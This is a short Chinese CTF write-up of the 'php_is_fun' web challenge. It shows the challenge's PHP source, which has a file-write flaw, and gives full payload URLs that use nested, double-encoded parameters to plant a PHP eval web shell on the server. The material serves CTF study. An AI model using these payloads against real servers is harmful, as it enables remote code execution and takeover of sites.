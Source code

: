 ```yaml
---
title: WEB 杂记
tags: [write-up]
date: 2017-05-07 19:41
---
```

把早期的web题刷一刷，把其中一些比较好的给记录下来以便整理、学习
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><p><div class="toc"><div class="toc">
<ul>
<li><a href="#1-phpisfun">php_is_fun</a></li>
</ul>
</div>
</div>
</p>
<blockquote>
<p>把早期的web题刷一刷，把其中一些比较好的给记录下来以便整理、学习</p>
</blockquote>
<hr>
<h1 id="1-phpisfun">1. php_is_fun</h1>
<blockquote>
<p>第七季极客大挑战</p>
</blockquote>
<pre class="prettyprint"><code class=" hljs xml"><span class="php"><span class="hljs-preprocessor">&lt;?php</span>
<span class="hljs-keyword">if</span>(<span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_GET</span>) &amp;&amp; !<span class="hljs-keyword">empty</span>(<span class="hljs-variable">$_GET</span>)){
    <span class="hljs-variable">$url</span> = <span class="hljs-variable">$_GET</span>[<span class="hljs-string">'file'</span>];
    <span class="hljs-variable">$path</span> = <span class="hljs-string">"upload/"</span>.<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'path'</span>];
}<span class="hljs-keyword">else</span>{
    show_source(<span class="hljs-keyword">__FILE__</span>);
    <span class="hljs-keyword">exit</span>();
}

<span class="hljs-keyword">if</span>(strpos(<span class="hljs-variable">$path</span>,<span class="hljs-string">'..'</span>) &gt; -<span class="hljs-number">1</span>){
    <span class="hljs-keyword">die</span>(<span class="hljs-string">'SYCwaf!'</span>);
}

<span class="hljs-keyword">if</span>(strpos(<span class="hljs-variable">$url</span>,<span class="hljs-string">'http://127.0.0.1/'</span>) === <span class="hljs-number">0</span>){
    file_put_contents(<span class="hljs-variable">$path</span>, file_get_contents(<span class="hljs-variable">$url</span>));
    <span class="hljs-keyword">echo</span> <span class="hljs-string">"console.log($path update successed!)"</span>;
}<span class="hljs-keyword">else</span>{
    <span class="hljs-keyword">echo</span> <span class="hljs-string">"Hello.Geeker"</span>;
}</span></code></pre>
<p>题目分析： <br>
我们，整个题目的输入只有两个地方<code>path</code>和<code>file</code>我们要构造的payload也只能从这两个地方传入。两个参数的作用很简单这里就不说了。 <br>
我们的目的是将我的文件内容写入文件，发现了他会把path打印出来 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507184242461?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
因此我们想到利用二次传参，第一层将我们要写的内容打印出来，第二层将打印的内容写入文件 <br>
<code>http://127.0.0.1/2.php?path=%3C?php%20@eval($_POST[1]);?%3E&amp;file=http://127.0.0.1/</code> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507184515543?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<code>http://127.0.0.1/2.php?path=jj.php&amp;file=http://127.0.0.1/2.php?path=%3C?php%20@eval($_POST[1]);?%3E&amp;file=http://127.0.0.1/</code>注意二次编码 <br>
最后提交 <br>
<code>http://127.0.0.1/2.php?path=aaz.php&amp;file=http://127.0.0.1/2.php?path=%253C%253Fphp%2520@eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%26file=http://127.0.0.1/</code> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507184529856?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
然后访问<code>aaz.php</code> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507194127921?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></br></img></br></br></br></br></img></br></br></br></img></br></br></br></p></hr></div>
